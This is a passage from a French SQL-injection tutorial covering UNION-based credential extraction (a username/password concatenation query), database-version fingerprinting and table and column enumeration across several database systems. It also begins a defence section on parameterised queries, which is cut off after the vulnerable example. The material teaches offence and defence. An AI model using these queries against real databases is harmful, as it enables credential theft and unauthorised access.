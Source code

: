 ```sql
SELECT CONCAT(username,'/',password) from users
```

<h4 id="h4-2-5"> Versions </h4>

Il peut être interressant de connaitre la version de la base de donnée pour effectuer des attaques ciblées sur la version.
Les requêtes dépendent de la base de donnée :

- *Oracle* : **SELECT banner FROM v$version**
- *Microsoft* : **SELECT @@version**
- *PostgreSQL* : **SELECT version()**
- *MySQL* : **SELECT @@version**

Si besoin **@** = **%40** et **$** = **%24**


<h4 id="h4-2-6"> Avoir le nom des tables </h4>

Pour effectuer nos recherche, il faut avoir le nom des tables et de colonnes, pour cela on peut effectuer, dans un requete **UNION**, les recherches suivantes : 

**Non Oracle**

```sql
SELECT TABLE_NAME FROM information_schema.tables
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'TABLE-NAME-HERE'

```

**Oracle**

```sql
SELECT TABLE_NAME FROM all_tables
SELECT COLUMN_NAME FROM all_tab_columns WHERE TABLE_NAME = 'TABLE-NAME-HERE'
```

{% note %}
Ne pas oublier de rajouter des colonnes **NULL** au cas où il faille plusieurs colonnes avec l'**UNION**
{% endnote %}

<h4 id="h4-3"> CheatSheet </h4>

{% prerequis "Les informations plus spécifiques liés aux serveur SQL sont dans ce document : [lien](https://portswigger.net/web-security/sql-injection/cheat-sheet)" %}

{% endprerequis %}

 


<h2 id="h5"> Défense </h2>

Il est possible de paramétrer une requête SQL, c'est-à-dire transformer une requête en une fonction prenant en paramètre les valeurs de la requête.

Au lieu d'executer :

```javascript
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```
